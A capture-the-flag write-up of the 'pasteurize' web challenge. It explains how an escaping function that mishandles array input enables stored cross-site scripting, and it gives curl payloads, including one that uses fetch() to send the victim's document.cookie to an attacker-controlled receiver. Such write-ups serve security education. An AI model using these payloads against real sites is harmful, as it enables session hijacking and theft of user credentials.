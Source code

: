 **Knowledge**:
- XSS Filter Evation
- Javascript

**Task**: We are given a webserver's logic. The server allows us to submit a note and notify the administrator to check our note.

**Investigation**: 
- A classic scenario of cross-site scripting attacks. A malicious script is not properly sanitized, allowing attackers to store the script persistently within a database.
Victims visiting the webpage hosting the script will cause the script to be fetched from the database and is executed in the browsing context of the victim. Thus, it is possible for the attacker to passively steal victim secret data such as token or cookie.

Having said that, our goal is to inject the script. Fortunately, we are given the server's source to understand how input is sanitized on the server's side:

```javascript
app.post('/', async(req,res)=>{
    // Our note's content is stored in variable 'note'
    const note = req.body.content;
    ...
    // Each note is associated with a note_id and is then stored into database
    const result = await DB.add_note(note_id, note);
    });

app.get('/:id..',recaptcha.middle..,async(req,res)=>{
 
    // Get note base on the id
    const note = DB.get_note(note_id);

    // Sanitize the note before rendering
    const unsafe_content = note.content;
    const safe_content = escape_string(unsafe_content);
    });

    // Render it
    res.render('note_public',{
        content: safe_content,
        ...
        })
```

How does `escape_string` work?

```javascript

  const escape_string = unsafe => JSON.stringify(unsafe). // Convert object to string 
                                  slice(1,-1).            // Leave out the 1st and the last item in the string
                                  replace(/</g,'\\\x3e'). // Escape the '<' globally, every instance will be replaced with x3e
                                  replace(/>/g,'\\\x3c')  // Escape the '>' globally
```

So `unsafe` can be either string, or an object ? This is further confirmed as `extended` is set to true in urlencoded. If we send an array `content[]=hello`, the server will receive an object `['hello']`.
Then `unsafe_content` will be the object `['hello']`. Applying the `escape_string`, we obtain the string `"hello"`. Note that the square brackets disappear because of the slice.

We then test our payload and see how the payload is rendered

```bash
curl -v https://pasteurize.web.ctfcompetition.com/ -d 'content[]=hello'

#Rendered page html
// Ops! Unescaped double quotes
const note = ""hello"";
const note_id = "659a2173-9b11-43ac-8658-e18dea463263";
const note_el = document.getElementById('note-content');
const note_url_el = document.getElementById('note-title');
const clean = DOMPurify.sanitize(note);
...
```
The key problem here is the escape_string assumes that unsafe will be string, and the double quotes will be removed by the `slice(1,-1)` to produce a valid string without double quotes. However,
it failed to handle the scenario where an object is converted into a string. As a consequence, it missed handled the square brackets, allowing us to produce double quotes without escaping.
The misused double quotes then pair with existing one, allowing us to inject code in the middle of the `const note`'s line. This observation is further confirmed with the following payload:

```bash
curl -v https://pasteurize.web.ctfcompetition.com/ -d 'content[]=;alert(1);'

#Render page html
// JS engine uses semicolon to separate statements. If a statement is not explicitly terminated with a semicolon, the JS engine will 
// automatically insert semicolon at the end of the statement.
const note = "";alert(1);"";
const note_id = "94d03158-c388-4931-ae18-a3d7149903be";
const note_el = document.getElementById('note-content');
const note_url_el = document.getElementById('note-title');
const clean = DOMPurify.sanitize(note);

```

We use pipedream.com to host our http receive server. We then use the following payload to post the payload, share it with Mike and obtain his cookie:

```bash
curl -v https://pasteurize.web.ctfcompetition.com/ -d "content[]=;fetch('https://REDACT/'%2bdocument.cookie);"

#Response checked on our receiver:
secret = CTF{Express_t0_Tr0ub13s}
```
